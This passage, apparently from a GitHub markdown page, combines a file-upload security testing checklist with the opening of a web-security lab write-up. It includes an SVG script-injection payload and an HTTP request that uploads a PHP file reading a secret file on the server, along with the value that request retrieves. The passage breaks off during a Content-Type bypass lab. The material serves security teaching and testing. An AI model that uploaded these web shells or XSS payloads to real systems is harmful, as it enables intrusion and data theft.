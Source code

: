 ✅ Expected: File served as download or blocked  
❌ Vulnerable: Script executed in browser

---

**14. SVG Upload with JavaScript**  
Embed JS in SVG file.

`svg`  
```xml
<svg><script>alert('XSS')</script></svg>
```

✅ Expected: SVG sanitized or blocked  
❌ Vulnerable: JS executed on render

---

**15. Polyglot File Upload**  
Merge shell with valid file format (e.g. JPEG + PHP).

✅ Expected: File parsed strictly  
❌ Vulnerable: Executable code triggered

### Tool:
- [FuzzDB Malicious Images](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/file-upload/malicious-images)


```
POST /my-account/avatar HTTP/2
...
-----------------------------372082654728426116931381616293
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------372082654728426116931381616293
...
```
![image](https://github.com/user-attachments/assets/9d64d730-dd3d-4309-a589-97f08634ebd2)

Now you can read the value of the file ("G5Bm58gT0NzAmOPLxpe0vR82y4CNT6WY") accessing /avatars/test.php:
![image](https://github.com/user-attachments/assets/c8f1a76d-9fe6-4800-8483-64fd7fe2eaac)

2. Web shell upload via Content-Type restriction bypass

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.
If we try the same payload as the previous lab there is an error:

![image](https://github.com/user-attachments/assets/8b2d8cb9-4f01-4c0f-a672-e34e92b1076c)

Changing the Content-Type it is possible to upload the PHP file:
